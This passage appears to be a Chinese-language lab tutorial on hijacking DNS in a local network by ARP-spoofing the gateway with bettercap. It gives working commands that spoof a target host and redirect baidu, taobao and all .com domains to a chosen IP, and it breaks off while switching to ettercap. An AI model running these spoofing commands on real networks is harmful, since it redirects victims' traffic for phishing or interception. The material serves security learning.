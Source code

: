 局域网内的DNS劫持可以依靠arp欺骗网关来达到修改dns请求，将其请求到我们指定的网站。

这里我们使用bettercap来完成局域网DNS劫持实验

kali_hacker：192.168.41.130

win7_hackde:192.168.41.128

win10_apache:100.66.10.247

### 安装bettercap

```shell
apt-get install bettercap
```

创建一个 dns.conf 文件，下面这个dns语句的意思是：所有的.com结尾的网站全部解析到我的本地Http服务器, .*\.com就是一个正则，也可以是自定义的正则　

```shell
169.254.197.219  .*\.com
```

### 查看网关地址

```shell
netstat -rn
route -n　　
```

因为安装的使bettercap2.x，感觉没有1.x操作简单，完全变了。所以重新找到一篇[文章](https://blog.csdn.net/qq_36119192/article/details/84582109)实验:

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

```shell
ipconfig/all    #查看DNS服务器
```

![分享图片](../../../../#ImageAssets/20191103181548163464.png)

DNS欺骗之前，我们先得进行ARP欺骗，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```shell
set arp.spoof.targets 192.168.41.128    #设置arp欺骗的主机以逗号分隔，默认是整个子网
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 100.66.10.247   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是100.66.10.247
```

使用bettercap2.x实验失败，一直返回endpoint。

还是使用ettercap实验

## 成功实验

修改`/etc/ettercap/etter.dns文件`
